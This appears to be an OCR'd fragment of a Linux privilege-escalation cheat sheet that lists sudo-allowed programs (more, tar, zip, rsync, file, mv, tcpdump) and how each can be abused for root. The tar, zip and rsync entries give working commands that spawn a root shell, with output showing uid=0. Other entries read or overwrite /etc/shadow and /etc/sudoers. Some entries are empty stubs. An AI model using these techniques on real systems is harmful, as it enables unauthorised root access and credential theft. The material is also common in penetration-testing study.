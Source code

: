 ##### more

You need to run more on a file that is bigger than your screen.

```
sudo more /home/pelle/myfile
!/bin/bash
```

##### mv

Overwrite `/etc/shadow` or `/etc/sudoers`

##### file

```
 sudo file -m /etc/shadow
```

##### tar

```
touch somefile
sudo tar cf /dev/null somefile --checkpoint=1 --checkpoint-action=exec=/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
```

##### zip

```
touch somefile
sudo zip -q /tmp/test.zip somefile -T -TT '/bin/sh #'
# id
uid=0(root) gid=0(root) groups=0(root)
```

##### rsync

```
user@host:/tmp$ cat > somefile << EOF
> cp /bin/sh /tmp/sh_root
> chmod a+sx /tmp/sh_root
> EOF
user@host:/tmp$ sudo rsync  -e 'sh /tmp/somefile' /dev/null 127.0.0.1:/dev/null 2>/dev/null
user@host:/tmp$ /tmp/sh_root
# whoami
root
```

`man`

`nano`

`nc`

##### tcpdump

The “-z postrotate-command” option \(introduced in tcpdump version 4.0.0\).
